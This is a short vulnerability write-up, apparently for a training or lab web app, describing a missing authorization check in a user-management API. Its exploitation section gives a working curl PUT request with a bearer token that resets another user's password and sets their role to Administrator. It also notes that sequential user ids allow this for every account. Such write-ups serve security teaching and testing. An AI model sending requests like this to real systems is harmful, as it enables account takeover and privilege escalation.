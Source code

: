 # Privilege Escalation

## Overview

An insufficient authorization issue exists in user management API at the following endpoint:

```
http://rws.local:5000/api/users/{id}
```

This can be exploited by an authenticated user to elevate his privilege (role) in the system or reset other user's password due to lack of appropriate authorization control.

## Exploitation

An attacker can send the following request to elevate his privilege or update account of any other user identified by the user id in the URL:

```
curl -X PUT \
  http://rws.local:5000/api/users/2 \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGVzdEB0ZXN0LmNvbSIsInJvbGUiOiJVc2VyIiwiZXhwIjoxNTI2MzgwMzYxLCJpc3MiOiJodHRwOi8vbG9jYWxob3N0LmxvY2FsLyIsImF1ZCI6Imh0dHA6Ly9sb2NhbGhvc3QubG9jYWwvIn0.5ZejCtXrq2vZJJQQxQn2GJ9aeZ2OEi8wuuia6fAAR1Q' \
  -H 'Content-Type: application/json' \
  -d '{
	"name": "Updated User",
	"email": "updated@updated.com",
	"password": "newpassword",
	"passwordConfirmation": "newpassword",
	"role": "Administrator"
}'
```

In this example, the attacker is updating the details of `user id: 2`.

Due to the sequential nature of user id, it is possible to brute force an update details for any user in the system.

## Impact

An attacker can reset credentials for any account or elevate his own privilege by abusing the vulnerable API endpoint.

